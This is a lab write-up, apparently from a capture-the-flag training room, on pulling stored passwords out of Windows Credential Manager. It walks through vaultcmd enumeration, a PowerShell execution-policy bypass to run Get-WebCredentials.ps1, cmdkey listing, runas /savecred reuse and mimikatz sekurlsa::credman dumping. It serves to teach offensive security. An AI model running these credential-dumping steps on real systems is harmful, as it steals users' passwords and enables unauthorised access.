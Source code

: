 **What is Credentials Manager?**
Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

    Web credentials - contain authentication details stored in Internet browsers or other applications.
    Windows credentials - contain Windows authentication details, such as NTLM or Kerberos.
    Generic credentials - contain basic authentication details, such as clear-text usernames and passwords.
    Certificate-based credentials: These are authentication details based on certificates.

**Accessing Credential Manager**

We can access the Windows Credential Manager through 1- GUI (Control Panel -> User Accounts -> Credential Manager) or 2- the command prompt.

We will be using the Microsoft Credentials Manager ```vaultcmd``` utility to interact with Windows Credential Manager.<br>
To enumerate if there are any stored credentials:
```
C:\Users\Administrator> vaultcmd /list
Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```
By default, Windows has two vaults, one for Web and the other one for Windows machine credentials. The above output confirms that we have the two default vaults.<br>
Let's check if there are any stored credentials in the Web Credentials:
```
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```
The output shows that we have one stored credential in the specified vault. Now let's try to list **more information **about the stored credential as follows:
```
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```
**Credential Dumping**

```The VaultCmd is not able to show the password```, but we can rely on other PowerShell Scripts such as ```Get-WebCredentials.ps1```.<br>
Getting Clean-text Password from Web Credentials:
```
C:\Users\Administrator>powershell -ex bypass
PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials
```
The output shows that we obtained the username and password for accessing the internal application.<br>

**RunAs**

An alternative method of taking advantage of stored credentials is by using RunAs.
The ```/savecred``` argument allows you to save the credentials of the user in Windows Credentials Manager (under the Windows Credentials section). So, the next time we execute as the same user, runas will not ask for a password.

**cmdkey**

Is another way to enumerate stored credentials, which is a tool to create, delete, and display stored Windows credentials. By providing the ```/list``` argument.
```
C:\Users\thm>cmdkey /list
Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
```
Now we have a username called ```thm-local```, we will use ```runas``` with ```/savecred``` argument to execute Windows applications as the ```thm-local``` user:
```
runas /savecred /user:THM.red\thm-local cmd.exe
```

**Mimikatz**

Mimikatz is a tool that can dump clear-text passwords stored in the Credential Manager from memory.
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```














